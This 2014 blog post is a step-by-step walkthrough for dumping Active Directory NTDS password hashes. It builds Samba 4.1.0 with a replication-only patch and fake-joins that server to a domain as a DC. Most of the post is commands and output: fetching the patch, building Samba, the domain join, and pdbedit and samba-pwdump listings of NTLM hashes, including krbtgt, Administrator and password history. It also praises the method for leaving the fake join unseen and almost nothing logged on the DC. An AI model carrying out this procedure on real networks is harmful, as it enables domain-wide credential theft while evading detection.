 ---
layout: post
title: "Dumping NTDS.dit domain hashes using Samba"
date: 2014-05-14 23:18:45 -0400
comments: true
categories:
- samba
- ntds.dit
- passwords 
---

So there was this blog post that talking about a number of ways to dump windows credentials by [@lanjelot](https://twitter.com/lanjelot) [definitly someone to follow] - here: https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/ and at the very bottom of this post it says "**AD Replication (EXPERIMENTAL)**"

What it boils down to is if you can position a system that can do DNS resolution to the target domain, and perform some other UDP traffic, you can fake join a samba server you control to a domain and it **_doesn't require code execution in any way on the domain controller_**.

Notice: I am not doing this on a Kali Linux box, there is already an install of Samba there and I didn't want to try uninstalling or modifying the one installed.

First, you need this patch:

`wget http://files.securusglobal.com/samba-4.1.0_replication-only-patch.txt`

and Samba 4.1.0

`wget http://ftp.samba.org/pub/samba/stable/samba-4.1.0.tar.gz`

You will probably also require some dependencies to be installed:

`apt-get install python2.7-dev python-samba libacl1-dev build-essential libldap2-dev libkrb5-dev attr`

Since the patch is kinda wonky, you need to make a `src` directory and extract samba into there first. Then apply the patch in whatever directory is above src

```
mkdir src
mv samba-4.1.0.tar.gz src/
cd src/
tar zxvf samba-4.1.0.tar.gz
cd /root/
```

So it would look like this:
```
samba-4.1.0_replication-only-patch.txt
src/
src/samba-4.1.0/
```
then run `patch -p0 < samba-4.1.0_replication-only-patch.txt`

```
cd ./src/samba-4.1.0/
./configure
make
make install
```
Prepare the box:
```
rm -rf /var/lib/samba; mkdir /var/lib/samba; rm -f /etc/samba/smb.conf
```
Next you need to make sure you are resolving correctly (if you can't resolve the SRV record `_ldap._tcp.sittingduck.info` (sittingduck.info being the domain) then this isn't going to work.
```
echo nameserver 192.168.92.37 > /etc/resolv.conf # this is the IP address of the DC
```

Then start the clone:
```
/usr/local/samba/bin/samba-tool domain join sittingduck.info DC -U sittingduck\\administrator
```

Looks like this:
```
root@sambabox:~/src/samba-4.1.0# /usr/local/samba/bin/samba-tool domain join sittingduck.info DC -U sittingduck\\administrator
Finding a writeable DC for domain 'sittingduck.info'
Found DC 2K8DC.sittingduck.info
Password for [SITTINGDUCK\administrator]:
workgroup is SITTINGDUCK
realm is sittingduck.info
Calling bare provision
No IPv6 address will be assigned
Provision OK for domain DN DC=sittingduck,DC=info
Starting replication
Schema-DN[CN=Schema,CN=Configuration,DC=sittingduck,DC=info] objects[402] linked_values[0]
Schema-DN[CN=Schema,CN=Configuration,DC=sittingduck,DC=info] objects[804] linked_values[0]
Schema-DN[CN=Schema,CN=Configuration,DC=sittingduck,DC=info] objects[1206] linked_values[0]
Schema-DN[CN=Schema,CN=Configuration,DC=sittingduck,DC=info] objects[1521] linked_values[0]
Analyze and apply schema objects
Partition[CN=Configuration,DC=sittingduck,DC=info] objects[402] linked_values[0]
Partition[CN=Configuration,DC=sittingduck,DC=info] objects[804] linked_values[0]
Partition[CN=Configuration,DC=sittingduck,DC=info] objects[1206] linked_values[0]
Partition[CN=Configuration,DC=sittingduck,DC=info] objects[1608] linked_values[1]
Partition[CN=Configuration,DC=sittingduck,DC=info] objects[1614] linked_values[11]
Replicating critical objects from the base DN of the domain
Partition[DC=sittingduck,DC=info] objects[100] linked_values[24]
Partition[DC=sittingduck,DC=info] objects[353] linked_values[27]
Done with always replicated NC (base, config, schema)
Committing SAM database
descriptor_sd_propagation_recursive: DC=DomainDnsZones,DC=sittingduck,DC=info not found under DC=sittingduck,DC=info
descriptor_sd_propagation_recursive: DC=ForestDnsZones,DC=sittingduck,DC=info not found under DC=sittingduck,DC=info
Joined domain SITTINGDUCK (SID S-1-5-21-3147519476-3247671789-820278723) as a DC

```

Then to get the hashes:
```
root@sambabox:~# /usr/local/samba/bin/pdbedit -L -w
2K8DC$:4294967295:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:CB14F1166BBE1749AC0FB40240C5DC30:[S          ]:LCT-530FC425:
Administrator:4294967295:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:88E4D9FABAECF3DEC18DD80905521B29:[U          ]:LCT-531006A4:
krbtgt:4294967295:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:F2EE6AB6F40810169E0E46B126CEFBEF:[DU         ]:LCT-530FC3FF:
nobody:65534:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:[U          ]:LCT-00000000:
jdoe:4294967295:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:88E4D9FABAECF3DEC18DD80905521B29:[UX         ]:LCT-530FC5FF:
uber:4294967295:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:88E4D9FABAECF3DEC18DD80905521B29:[UX         ]:LCT-53101261:

```

Or you can do it with history:
```
root@sambabox:~# python samba-pwdump.py /usr/local/samba/private/sam.ldb.d/DC\=SITTINGDUCK\,DC\=INFO.ldb -history
SAMBACLONE$:1104:::::
2K8DC$:1000::cb14f1166bbe1749ac0fb40240c5dc30:::
Administrator:500::88e4d9fabaecf3dec18dd80905521b29:::
krbtgt:502::f2ee6ab6f40810169e0e46b126cefbef:::
Guest:501:::::
jdoe:1103::88e4d9fabaecf3dec18dd80905521b29:::
uber:1105::88e4d9fabaecf3dec18dd80905521b29:::
uber_history0:1105:444d1edcad01ae08f49f073e12e8cc14:88e4d9fabaecf3dec18dd80905521b29:::
```


Game over. The great thing is that it never actually shows up as a joined box in the domain, and as far as I can tell the only log on the real DC is the login success of a domain admin. Plus one of the huge benefits to this method is that once you have the database Samba makes it really easy to query information like group membership or users info after the fact, not just hashes.


